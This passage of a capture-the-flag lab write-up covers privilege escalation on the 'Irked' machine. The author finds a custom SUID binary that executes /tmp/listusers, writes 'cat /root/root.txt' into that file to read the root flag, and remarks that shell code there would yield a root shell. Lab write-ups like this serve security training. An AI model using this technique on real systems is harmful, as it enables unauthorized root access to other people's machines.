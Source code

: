 ```bash
/bin/umount
```

We will then begin enumerating the binaries. We inspect each binary against public exploits, but
also utilizing `strings` and other enumeration tool in kali. We do this for all binaries until we hit
`viewuser`. This binary is not a native Debian `SUID binary`, which is suspicious. We execute the
binary and see the following:

```bash
djmardov@irked:~$ viewuser
This application is being developed to set and test user permissions
It is still being actively developed
(unknown):0
2019-02-20 15:59 (:0)
djmardov pts /1
2019-02-20 16:01 (10.10.**.**)
sh: 1: /tmp/listusers: not found
```

This looks like a custom binary that runs who along with some other instructions. The last line of
the output tells us that the `SUID binary` is reading `/tmp/listusers`. Let’s go check it out.

```bash
djmardov@irked:~$ cd /tmp/
djmardov@irked:~$ ls -a
```

Nothing! Looks like `listusers` hasn't been created. Let's create it and set permissions- and while we're at it, let's try to get `viewuser` to execute a command for us.

```bash
djmardov@irked:~$ echo "cat /root/root.txt" > /tmp/listusers
djmardov@irked:~$ chmod +755 listusers
```

Nice. Let’s see what this does when we execute `viewuser` now.

```bash
djmardov@irked:~$ viewuser
This application is being developed to set and test user permissions
It is still being actively developed
(unknown):0
2019-02-20 15:59 (:0)
djmardov pts /1
2019-02-20 16:01 (10.10.**.**)
8 d8e9e8be64654b6dccc3bff********
```

Success! `sh: 1: /tmp/listusers: not found` has successfully changed tot he contents of `/root/root.txt`. Based on this finding, we can easily modify `/tmp/listusers` with shell code which will allow a full root shell. 
